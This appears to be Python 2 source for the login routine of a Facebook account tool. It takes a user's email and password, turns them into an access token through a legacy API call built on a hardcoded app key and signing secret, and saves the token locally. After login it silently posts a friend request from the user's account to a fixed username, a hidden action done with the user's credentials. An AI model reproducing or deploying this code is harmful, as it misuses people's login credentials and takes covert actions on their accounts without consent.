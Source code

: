 ##### LOGIN #####
#================#
def login():
	os.system('reset')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('reset')
		print logo
		print('\033[1;91m[☆] \033[1;92mLOGIN AKUN FACEBOOK \033[1;91m[☆]')
		id = raw_input('\033[1;91m[+] \033[1;36mID\033[1;97m|\033[1;96mEmail\033[1;97m \033[1;91m:\033[1;92m ')
		pwd = getpass.getpass('\033[1;91m[+] \033[1;36mPassword \033[1;91m:\033[1;92m ')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\033[1;91m[!] No connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				zedd = open("login.txt", 'w')
				zedd.write(z['access_token'])
				zedd.close()
				print '\n\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mLogin successfully'
                                requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;91m[!] No connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;91m[!] \033[1;93mAccount Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;91m[!] Login Failed")
			os.system('rm -rf login.txt')
			time.sleep(0.01)
			login()
			